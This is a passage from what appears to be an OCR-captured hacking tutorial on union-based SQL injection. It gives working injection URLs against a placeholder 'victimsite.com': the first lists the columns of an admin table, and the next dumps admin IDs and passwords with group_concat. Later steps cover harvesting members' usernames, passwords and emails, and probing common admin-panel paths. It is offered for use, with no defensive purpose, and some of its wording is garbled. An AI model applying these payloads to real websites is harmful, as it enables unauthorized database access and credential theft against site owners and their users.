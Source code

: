 Now
```
select sql->Mysql->MysqlChar()
```
This will open the small window ,enter the table name which you found. i am going to use the admin table name.

click ok

Now you can see the CHAR(numbers separated with commans) in the Hack toolbar.


Copy and paste the code at the end of the url instead of the “mysqlchar”
For eg:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_name=CHAR(97, 100, 109, 105, 110)–
```

Now it will show the list of columns.
```
like admin,password,admin_id,admin_name,admin_password,active,id,admin_name,admin_pas ​ s,admin_id,admin_name,admin_password,ID_admin,admin_username,username,password..etc..
```
Now replace the replace group_concat(column_name) with group_concat(columnname,0x3a,anothercolumnname).

Columnname should be replaced from the listed column name.
anothercolumnname should be replace from the listed column name.

Now replace the ” from information_schema.columns where table_name=CHAR(97, 100, 109, 105, 110)” with the “from table_name”

For eg:
```
http://www.victimsite.com/index.php?id=-2
and 1=2 union select 1,2,group_concat(admin_id,0x3a,admin_password),4,5,6,7 from admin--
```
Sometime it will show the column is not found.
Then try another column names

Now it will Username and passwords.

Enjoy..!!cheers..!!

If the website has members then jock-bot for you. You will have the list of usernames and password.
Some time you may have the email ids also,enjoy you got the Dock which can produce the golden eggs.

Step 8: Finding the Admin Panel:
Just try with url like:
```
http://www.victimsite.com/admin.php
http://www.victimsite.com/admin/
http://www.victimsite.com/admin.html
http://www.victimsite.com:2082/
```
etc.
If you have luck ,you will find the admin page using above urls. or try this list .
Here is the list of admin urls:
```
http://www.ziddu.com/download/13163866/A…t.zip.html
```